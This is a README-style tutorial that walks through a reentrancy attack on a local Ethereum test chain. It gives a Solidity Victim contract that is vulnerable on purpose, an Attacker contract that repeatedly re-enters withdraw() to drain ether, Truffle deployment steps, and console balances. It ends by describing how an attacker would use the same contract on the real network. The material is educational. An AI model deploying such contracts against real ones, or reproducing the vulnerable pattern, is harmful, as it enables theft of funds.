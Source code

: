 # Recreating Reentrancy Attack
The document below goes through a "reentrancy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 2. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

```
$ npm i -g ethereumjs-testrpc
$ npm i -g truffle
```

### 3. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000;
    if (!msg.sender.call.value(transferAmt)()) throw;
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    }
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this
folder is your contracts in their `binary` and `abi` forms.

```
$ truffle compile
```

The command below `deploys` the contracts
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console,
so we can interact with our deployed contracts (Victim, Attacker), and
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victim.then(contract => victimAddress = contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier,
that allows us to send ether to that function/contract from our `acct1` address.
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again,
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 5. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have
eth in that contract, lets steal some of that. but first lets check
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attacker.then(contract => attackerAddress = contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function.

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

6. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the
the deployed `Victim`'s contract by address. Onces it has all of those variables in place, the attacker can
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain
the `Victim`s address.
